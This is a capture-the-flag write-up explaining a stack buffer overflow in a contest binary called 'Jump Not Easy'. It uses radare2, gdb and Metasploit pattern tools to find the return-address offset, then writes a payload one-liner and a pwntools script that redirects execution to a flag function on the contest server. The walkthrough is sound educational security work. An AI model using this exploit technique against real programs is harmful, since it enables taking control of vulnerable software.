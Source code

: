 # Jump Not Easy

This is a classic buffer overflow challenge. We don't have the source code so we'll disassemble the binary using radare2.

We can see that the main function calls the `jump` function.

![](../.gitbook/assets/931875a5a445494498bca6248aa04f47.png)

Notice that the jump function calls `gets`, which is vulnerable to buffer overflows \(it does not check the received buffer length\).

![](../.gitbook/assets/915de40d06db4ef3931cca2f3c79fc0a.png)

We can now use `gdb` to debug the binary. Using `msf-pattern_create -l 1000`, we create a pattern that we will send to the binary.

Set a breakpoint at 0x00401304, right after the `gets` call.

```text
gef > break *0x00401304
Breakpoint 1 at 0x401304
```

After supplying our payload through the `gets` call, our breakpoint is triggered.

![](../.gitbook/assets/76330b5d6412448cb1d162ca7989043f.png)

At this point we can analyse the stack frame _after_ receiving input, but _before_ returning from the `jump` function.

The `saved rip` value is the return address stored on the stack. We have successfully overwritten it.

![](../.gitbook/assets/40e4364119844975b76793117e32c35e.png)

```text
msf-pattern_offset -q 0x6341356341346341
[*] Exact match at offset 72
```

Now we know that the RIP offset is 72.

There is also a `get_flag` function at `0x0040125d`. Perhaps we can redirect the program execution here, and get our flag.

![](../.gitbook/assets/87b3ab63dfb449aa837ebddb92073e73.png)

Let's test our hypothesis. We generate our payload file: `python -c 'print "A" * 72 + "\x5d\x12\x40\x00"' > ipt.txt`, then pass it to the binary in gdb.

```text
gef > run < ipt.txt
```

Here we have overwritten the RIP to the address of `get_flag`. Continuing from the breakpoint, we get "Error when opening the file!". This means that the `get_flag` function was indeed executed!

![](../.gitbook/assets/729f50a520a14a32955143c2375796f0.png)

Now we can obtain the flag from the server.

```python
from pwn import *

ret = 0x0040125d
offset = 72
payload = b""
payload += b"A" * offset
payload += p32(ret)
print(payload)

conn = remote('chals5.umdctf.io', 7003)

print(conn.recvuntil("Where do you want to go?\n"))
conn.send(payload + b"\n")
print(conn.recv())

conn.close()
```

![](../.gitbook/assets/4c98891946f749e29b6ec6ce2d355847.png)

